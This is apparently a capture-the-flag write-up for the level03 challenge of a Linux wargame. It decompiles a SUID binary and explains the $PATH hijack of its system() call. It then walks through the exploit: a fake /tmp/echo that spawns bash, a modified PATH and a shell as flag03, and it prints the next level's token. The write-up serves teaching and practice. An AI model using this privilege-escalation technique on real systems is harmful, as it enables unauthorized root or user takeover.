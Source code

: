 ## LEVEL03  
  
### file level03  
`level03` is an executable file compiled from level03.c, in ELF32 format.  
  
### Ghidra  
With a decompiler (Ghidra), we can recover the source code:  
  
`int main(int argc, char **argv, char **envp) {`  
`  __gid_t __rgid;`  
`  __uid_t __ruid;`  
`  int iVar1;`  
`  gid_t gid;`  
`  uid_t uid;`  
`  `  
`  __rgid = getegid();`  
`  __ruid = geteuid();`  
`  setresgid(__rgid, __rgid, __rgid);`  
`  setresuid(__ruid, __ruid, __ruid);`  
`  iVar1 = system("/usr/bin/env echo Exploit me");`  
`  return iVar1;`  
`}`  
  
or  
  
### strings command  
`strings level03`: returns the static strings in the program  
`getegid`, `geteuid`, `setresgid`, `setresuid`, `system`.  
  
`system()` can be exploited. The command `env` is safe because it is directly called by its path, but `echo` uses the `$PATH` environment variable, which can be manipulated.  
  
### RUID / SUID  
  
ruid: The Real User ID designates the user who launched the process.  
suid: The Saved User ID is essential for a process with elevated privileges, allowing it to temporarily switch privileges for certain tasks.  
  
`ls -la level03` outputs `rwsr-sr-x`  
`s`: SUID, meaning the script is executed with the privileges of another UID. It is executed with the UID privileges of the user `flag03`.  
  
### /tmp + $PATH  
  
* Create a fake `echo` command with:  
`echo "/bin/bash" > /tmp/echo`  
Don’t forget to add execution permissions:  
`chmod +x echo`  
  
* Add the path to the `$PATH` environment variable:  
`export PATH='/tmp:$PATH'`  
  
* Execute `./level03`  
`echo` = `/bin/bash` runs with the UID privileges of the user `flag03`, opening a bash environment where we are the user `flag03`.  
`id` = `flag03`  
`getflag` returns the connection token for the user `level04`.  
  
flag03: no flag, privilege escalation. User `level03` becomes user `flag03`, then `getflag` is used.  
  
token_passwd_level04: `qi0maab88jeaj46qoumi7maus`  